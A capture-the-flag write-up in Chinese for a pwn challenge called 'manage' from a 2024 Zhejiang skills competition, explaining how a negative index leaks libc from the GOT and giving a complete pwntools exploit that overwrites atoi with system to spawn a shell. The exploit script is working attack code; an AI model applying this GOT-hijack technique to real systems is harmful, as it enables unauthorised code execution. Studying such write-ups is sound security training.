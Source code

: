 ```yaml
---
title: 2024浙江通信行业职业技能竞赛 - manage 
date: 2024/08/05 21:22:00
updated: 2024/08/05 21:22:00
tags:
    - noob
    - got-hijack
excerpt: （信息安全测试员竞赛）通过利用负索引访问GOT表，泄露libc地址并重定向函数实现shell获取。
---
```


{% note info fa-paperclip %}
题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

## 解题思路

程序看似是菜单题，实际上没有`malloc`和`free`函数，仔细看输入的索引，
以`int`存储，可以为负值。因此可以查看got表来得到libc并写入其他函数。
同时菜单选项是通过`atoi`来转换的，因此把`atoi`写为`system`就可以方便地打开shell

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './manage'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    else:
        sh = remote('10.10.26.199', 24361)
        libc = ELF('./libc-2.31.so')
    elf = ELF(EXE)

    def show(idx: int) -> bytes:
        sh.sendlineafter(b'system---', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b':\n')
        return sh.recvuntil(b'---Welcome')

    def edit(idx: int, buf1: bytes, buf2: bytes):
        sh.sendlineafter(b'system---', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'card', buf1)
        sh.sendlineafter(b'name', buf2)

    leak1 = show(-1)
    idx = leak1.find(b': ') + 2
    libcBase = u64(leak1[idx:idx + 6] + b'\0\0') - libc.symbols['_IO_2_1_stderr_']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase

    edit(-3, p64(libc.symbols['puts']), p64(0) + p64(libc.symbols['system']))

    sh.sendafter(b'system---', b'/bin/sh\0')

    sh.clean()
    sh.interactive()
    sh.close()
```
